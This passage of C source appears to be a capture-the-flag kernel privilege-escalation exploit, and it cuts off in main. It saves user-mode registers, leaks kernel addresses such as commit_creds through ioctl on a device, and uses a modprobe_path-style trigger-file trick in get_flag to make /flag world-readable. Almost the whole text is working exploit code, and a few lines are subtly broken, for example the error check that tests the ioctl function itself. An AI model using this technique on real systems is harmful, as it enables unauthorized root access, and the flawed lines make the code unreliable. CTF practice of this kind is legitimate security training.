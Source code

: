 ```c
uint64_t user_cs;
uint64_t user_ss;
uint64_t user_sp;
uint64_t user_rflags;

void save_state()
{
    __asm__ __volatile__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
}

void get_flag()
{
    char *const argv[] = {"/tmp/trigger", NULL};
    char *const envp[] = {NULL};
    system("printf \"#!/bin/sh\\nchmod 777 /flag\" > /tmp/x");
    system("chmod +x /tmp/x");
    system("printf \"\\xff\\xff\\xff\\xff\" > /tmp/trigger");
    system("chmod +x /tmp/trigger");
    system("/tmp/trigger");
    system("cat flag");
}

uint64_t ioctl_control(uint64_t leak_buffer[3], unsigned long command)
{
    int fd;
    ssize_t ioctl_ret;

    fd = open(DEVICE_PATH, O_RDWR);
    if (fd < 0)
    {
        printf("device open error\n");
        return 0;
    }

    ioctl_ret = ioctl(fd, command, leak_buffer);
    
    if (ioctl < 0)
    {
        printf("ioctl error: %lld\n", ioctl);
        return 0;
    }
    
    return NULL;
}

int main(void)
{
    uint64_t* leak_alloc = (int64_t*)malloc(sizeof(int64_t));
    uint64_t leak_buffer[3] = {0,};
    uint64_t commit_creds;
    uint64_t module_base_address;
    int dummy;

    save_state();
    // leak commit_creds
```